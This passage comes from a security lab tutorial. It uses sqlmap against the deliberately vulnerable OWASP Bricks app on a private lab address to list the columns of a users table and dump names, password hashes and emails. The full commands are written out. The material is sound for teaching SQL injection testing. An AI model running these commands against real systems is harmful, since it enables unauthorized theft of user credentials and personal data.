 8. Next, we'll enumerate the columns contained within the `users` table.

   - Type the following command:
   
      `sqlmap -u http://172.16.203.141/owaspbricks/login-1/ --dbms=mysql --forms -D bricks -T users --columns`
   
   
      - `-T user`: Targets the  `users` tables.
      - `--columns`: Returns all of the columns for the associated table.
      - Remember, SQLmap doesn't keep track of our previous preferences. We will be prompted by the same prompts as before. Press the **Enter** key at each prompt. 

   
   - The results show eight columns associated with the `users` table in the `bricks` database.
   
   ![Columns](./Images/SQLMAP/SQLMAP_9.png)

   
8. At this stage, attackers will be able to perform data extraction using the information they've gathered so far. 

   - In this example we'll dump (extract) `names`, `passwords`, and `emails`. 
   
   - Type the following command:
   
     `sqlmap -u http://172.16.203.141/owaspbricks/login-1/ --dbms=mysql --forms -D bricks -T users -C name,password,email --dump`
      
      - `-C name,password,email`: Specifies which specific columns to dump.
      - `--dump`: Dumps all of the data within the table to allow extraction.
   
   - SQLMap will ask if you want to store hashes to a temporary file. Answer "no" by typing `n`. 
      - This prompt tells the attacker that SQLMap was able to harvest the hashed user passwords.
      